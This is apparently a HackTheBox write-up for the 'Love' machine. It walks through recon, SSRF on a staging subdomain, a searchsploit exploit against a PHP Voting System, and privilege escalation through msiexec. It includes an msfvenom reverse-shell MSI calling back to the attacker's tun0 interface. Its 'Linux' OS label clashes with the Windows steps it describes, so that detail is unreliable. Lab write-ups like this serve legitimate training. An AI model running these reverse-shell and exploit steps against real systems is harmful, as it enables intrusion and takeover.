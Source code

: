 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)

---

## 🔍 Recon
```bash
nmap -sV -sC -oA scan/result $IP
```
- Found services:
  - [HTTP](HTTP) (80, 5000)
  - HTTPS
  - [SMB](SMB)
  - [MySQL](MySQL.md)

Update `/etc/hosts`:
```bash
echo "$IP love.htb staging.love.htb" | sudo tee -a /etc/hosts
```

---

## 🕵️‍ HTTP Enumeration
```bash
gobuster dir --url "http://love.htb/" -w /usr/share/dirb/wordlists/small.txt -x php,txt,config -o http.txt
```
- Result: Nothing interesting found

Search for vulnerable software:
```bash
searchsploit "Voting System"
```
- Found exploit for PHP Voting System (needs credentials)

---

## 📉 Port 5000
- Access denied (403)

---

## 📃 HTTPS Certificate
- View for domain/subdomain info

---

## 📢 staging.love.htb (HTTP)
- Has a URL input field
- Test for SSRF:

```http
GET / HTTP/1.1
Host: staging.love.htb
...
Input URL: http://127.0.0.1:5000
```
- ✅ SSRF Works

---

## 🔨 Exploitation
Copy exploit:
```bash
searchsploit -m 49445.py
```
Edit and run exploit to leverage SSRF and gain access.

---

## 🥵 Privilege Escalation
- Upload **WinPEAS** for local enumeration.
- Detected: `msiexec` install privileges ✅

Generate reverse shell payload:
```bash
msfvenom -p windows/x64/shell_reverse_tcp lhost=tun0 lport=9002 -f msi -o exploit2.msi
```

Upload to target, then execute:
```bash
msiexec /quiet /qn /i exploit2.msi
```

---

## ✅ Root Access
- Reverse shell received with NT AUTHORITY privileges

---

## 📑 Summary
- Used SSRF on subdomain to reach an internal service
- Exploited a vulnerable Voting System
- Privilege escalation via MSI installation permissions